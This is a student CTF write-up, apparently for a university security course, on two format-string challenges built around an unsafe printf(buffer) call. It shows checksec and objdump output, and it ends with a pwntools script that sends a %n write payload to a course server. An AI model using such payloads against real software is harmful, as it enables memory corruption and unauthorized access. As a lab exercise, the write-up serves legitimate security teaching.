






## CTF 1

We verified the protections of the given program:

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We loocked for other vulnerabilities. 
And found the following line of code:

```c
printf(buffer);
```

We see that *buffer*, is in stringthe format  of printf, it can be exploited even more since it is a global variable we just need
to put the address of where this flag is stored at the top of the stack and
then use "%s" in the format string to read it.

```sh
$ objdump -t program | grep flag
0804c060 g     O .bss    00000028    flag
```

Not that we have the address to read, just need to write the script.





And we get the flag!

## CTF 2

We verified the protections of the given program:

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

And its similar to the last CTF

```c
printf(buffer);
```

Instead of reading from the address like we did in the previous CTF, we
need to print 0xbeef (or 48879) bytes before it.




```python
from pwn import *
p = remote("ctf-fsi.fe.up.pt", 4005)
p.recvuntil(b"...")
p.sendline(b"AAAA\x34\xC0\x04\x08%.48871x%n")
p.interactive()
```

